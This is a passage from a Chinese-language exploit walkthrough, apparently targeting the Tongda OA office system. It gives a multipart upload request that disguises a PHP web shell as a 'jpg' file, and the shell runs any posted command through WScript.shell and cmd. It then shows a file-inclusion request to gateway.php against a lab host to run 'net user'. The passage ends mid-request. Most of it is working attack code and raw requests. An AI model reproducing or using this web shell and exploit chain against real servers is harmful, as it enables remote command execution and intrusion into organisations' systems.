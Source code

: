 ```

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>

------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

得到200状态码，获得图片名称：`1354502767.jpg`

![image-20210409132616556](images/%E9%80%9A%E8%BE%BEOA.assets/image-20210409132616556.png)

```
+OK [vm]252@2104_2141129852|jpg|0[/vm]
```



#### 文件包含图片马

前台文件包含漏洞：修改数据包，包含前面上传的jpg木马文件，即可实现执行任意命令。

此处执行命令“net user”

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 192.168.163.146:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: textml,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

```